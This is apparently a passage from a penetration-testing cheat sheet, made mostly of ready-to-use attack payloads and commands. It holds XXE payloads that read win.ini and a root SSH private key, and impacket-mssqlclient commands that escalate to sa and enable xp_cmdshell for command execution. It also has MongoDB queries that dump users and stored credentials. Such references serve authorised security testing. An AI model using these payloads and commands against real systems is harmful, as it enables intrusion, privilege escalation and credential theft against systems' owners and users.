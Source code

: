 ```c
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]><order><quantity>3</quantity><item>&test;</item><address>17th Estate, CA</address></order>
```

```c
username=%26username%3b&version=1.0.0--><!DOCTYPE+username+[+<!ENTITY+username+SYSTEM+"/root/.ssh/id_rsa">+]><!--
```

### Database Analysis

#### impacket-mssqlclient

##### Common Commands

```c
enum_logins
enum_impersonate
```

##### Connection

```c
impacket-mssqlclient <USERNAME>@<RHOST>
impacket-mssqlclient <USERNAME>@<RHOST> -windows-auth
sudo mssqlclient.py <RHOST>/<USERNAME>:<USERNAME>@<RHOST> -windows-auth
```

```c
export KRB5CCNAME=<USERNAME>.ccache
impacket-mssqlclient -k <RHOST>.<DOMAIN>
```

##### Privilege Escalation

```c
exec_as_login sa
enable_xp_cmdshell
xp_cmdshell whoami
```

#### MongoDB

```c
mongo "mongodb://localhost:27017"
```

```c
> use <DATABASE>;
> show tables;
> show collections;
> db.system.keys.find();
> db.users.find();
> db.getUsers();
> db.getUsers({showCredentials: true});
> db.accounts.find();
> db.accounts.find().pretty();
> use admin;
```
